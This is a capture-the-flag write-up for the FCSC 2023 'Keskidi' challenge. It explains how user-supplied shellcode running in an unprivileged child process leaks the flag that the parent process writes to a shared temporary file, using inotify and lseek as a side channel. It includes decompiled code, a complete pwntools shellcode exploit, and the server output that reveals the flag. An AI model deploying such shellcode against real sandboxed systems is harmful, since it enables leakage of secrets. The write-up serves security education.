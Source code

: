 # FCSC 2023 : Keskidi writeup

## Brief Summary
Essentially, we have an executable which calls `fork()`, the child process is unprivileged and runs some user provided shellcode, while the parent process does some operations on a temporary file (accessible from both processes via  a file descriptor) based on the content of the flag.

*Note: For convenience I added symbols using objcopy into a new binary `keskidi_s` , and I refer to them in this WU for clarity*

## Before forking

- The program creates a temporary file, saves its fd `tmp_fd` in the `.bss` at `tmp_fd`
- It then generates 4096 bytes that are then copied into the temporary file, and into the `.bss` at `tmp_buff`.

*Note: because there are only 255 non-null possibles chars, and we generate 4096 bytes, given a flag character, it is extremely unlikely that the buffer and temporary file do not contain it at least once.*

## After forking 
### What is the parent process doing ?

First, the parent opens `flag.txt`, copies its content to a local buffer `flag_buf`
Then it follows this procedure (decompilation from ghidra + variables renamed)

```C
  len_flag = strlen(flag_buf);
  for (i = 0; i < (int)len_flag; i = i + 1) {
    head = &tmp_buff;
    do {
      head = (undefined *)memchr(head,(int)flag_buf[i],0x1000 - (long)(head + -0x4060));
      if (head != (undefined *)0x0) {
        lseek(tmp_fd,(__off_t)(head + -0x4060),0);
        write(tmp_fd,&zero,1);
        syncfs(tmp_fd);
        head = head + 1;
      }
    } while (head != (undefined *)0x0);
  }
  flag_fd = close(tmp_fd);
```

Relevant things to note :
- each time a character is written, `syncfs()` is called, which ensures the write is propagated to the file system
- at each write, the position indicator of the tmp file is set by to some value, say `j-1`, by the `lseek` call, then to `j` by the call to `write()`
- We have that `flag[i]==tmp_buff[j-1]`

### What is the child process doing ?

It's quite straightforward, a user provided shellcode of length at most 256 bytes is ran into a freshly mmaped region in memory of size 256 bytes. At shellcode execution, this region is not writable.

## The Idea
Everytime a call to `syncfs` is used in the parent we output the corresponding flag character in the child, by peeking into `tmp_buffer`, using the head of the position indicator file, which we can get using an `lseek(tmp_fd,0,SEEK_CUR)` syscall. 

By looking into gdb, I found that tmp_fd is reliably equals to 4, and saw that `SEEK_CUR = 2` by compiling then running an appropriate C code that prints it.

The `inotify` API is exactly what we are looking for to peek on writes on a file. It is a familiy of syscalls which allow for monitoring of the filesystem.

Calling `inotify_init()` will return a special file descriptor, say `ifd`, that will is blocking on read (stops execution) until an event happens.

Then, calling `inotify_add_watch(ifd,'proc/self/fd/4'),IN_MODIFY)` will make it so that modification events (IN_MODIFY) on the temporary file (accessible via `'proc/self/fd/4'` filename) will be registered in ifd

Reading from `ifd` will block until a new event has been registered.

So the idea is to have a loop in the child, in which at each iteration we do the following :
- wait for a write event (ie, read from `ifd`)
- retrieve the position indicator `j` of tmp_fd via `lseek`, 
- write `tmp_buff[j-1]` to `stdout`

Easy right ? Except that if a character is found multiple times in the `tmp_buffer`, there will be multiple writes for this character into the tmp file.

To circumvent this issue, I made the assumption (which luckily turned out to be right :P) that no two consecutive flag characters are equal, and so I adjusted the shellcode to only print a character to stdout if it is different from the previous.

## Exploit

Here is the bulk of the exploit.
I had to run it a number of times because sometimes some characters are missed

```python
ret_addr_off = 0x13c0
tmp_buff_off = 0x4060
tmp_buff_fd = 0x4040
tmp_fd = 4
tmp_name = b'/proc/self/fd/4\x00'
sc = b''

sc += asm(
        f"""
        pop r8
        add r8, {tmp_buff_off - ret_addr_off}
        
        xor rax, rax
        add al, 253
        syscall

        mov rdi, rax
        mov r10, {int.from_bytes(tmp_name[8:],'little')}
        push r10
        mov r10, {int.from_bytes(tmp_name[:8],'little')}
        push r10
        mov rsi, rsp
        mov rdx, 2
        xor rax, rax
        add al, 254
        syscall
        mov rcx, rax

        mov rbx, rdi
        xor r9, r9
        peek:
            mov rdi, rbx
            mov rdx, 16
            xor rax, rax
            syscall

            mov rdi, 4
            xor rsi, rsi
            mov rdx, 1
            xor rax, rax
            add al, 8
            syscall

            mov rax, QWORD PTR [rax - 1 +r8]
            push rax
            shl rax,56
            cmp rax,r9
            je peek

            mov r9, rax
            
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 1
            xor rax, rax
            add al, 1
            syscall

            cmp r8, r8
            je peek
        """
        )
        
io = start()
io.send(sc + b"\n")
io.interactive()
```

## FLAG
```
[*] '/home/skuuk/fcsc23/keskidi/keskidi_s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] Switching to interactive mode
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}[*] Got EOF while reading in interactive
$ 
```



